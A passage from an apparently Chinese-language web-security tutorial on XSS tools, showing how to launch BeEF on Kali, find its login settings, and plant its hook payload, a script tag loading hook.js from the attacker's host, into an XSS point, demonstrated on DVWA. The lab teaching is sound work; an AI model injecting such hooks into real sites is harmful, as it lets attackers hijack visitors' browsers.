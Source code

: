 2.需要受害者去配合。一般需要特定的人去访问去触发才行。是被动攻击

5.XSS工具
=======

5.1.xss平台
---------

上面已经介绍过，这里就不赘述了

[反射型XSS(按ctrl键点我跳转)](#1)

5.2.BeEF
--------

这个工具在kali上有集成。

该使用工具在freebuf上有一个系列文章，写的非常好，这里分享一下：[BeEF](https://www.freebuf.com/sectool/178512.html)

我这里就简单介绍下如何使用吧。

先打开kali，这里打开beef的方式有两种，第一种是以下这种：

在这里搜索beef，点击其中的`beef xss framework`或者`beef start`任选一个

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ef5b1361c65a9e0e87f267fd814a0bb43a58d669.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ef5b1361c65a9e0e87f267fd814a0bb43a58d669.jpg)

第二种是直接命令行中敲`beef-xss`。

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fda0ea4d66b6689770481ddaae62bde6267a5685.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fda0ea4d66b6689770481ddaae62bde6267a5685.jpg)

然后都是在命令行上，等待上面的秒数从5到1后，会跳出一个页面让我们登录

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4e7d1a38cf88d3538cddb03cb6d70f00b5298929.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4e7d1a38cf88d3538cddb03cb6d70f00b5298929.jpg)

这里如果不知道用户名和密码的话，可以在命令行敲这个命令：`vim /etc/beef-xss/config.yaml`，在里面可以进行查看。如果想修改的话也可以自行修改，修改了密码则要重新启动BeEF进行登录(如果登录不了，则kali重启再重新启动程序)

登录成功，里面是长这个样子

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5d378d1765d2201633fe2e53060dfa40aff33557.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5d378d1765d2201633fe2e53060dfa40aff33557.jpg)

这时候啥都干不了，是因为你有一步很重要的操作没做。这里需要把图中红框中的payload复制粘贴到你的目标xss的位置，然后将其中的`<IP>`改成你这台kali的IP地址，最终payload为：`<script src="http://X.X.X.X:3000/hook.js"></script>`

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-70abf884a0c533881eb320b4200cc28e9bf467de.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-70abf884a0c533881eb320b4200cc28e9bf467de.jpg)

这里我用dvwa来模拟场景。将payload插入其中，点击submit

[![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a90f017d84a70b675facb850150c52455036ccc1.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a90f017d84a70b675facb850150c52455036ccc1.jpg)
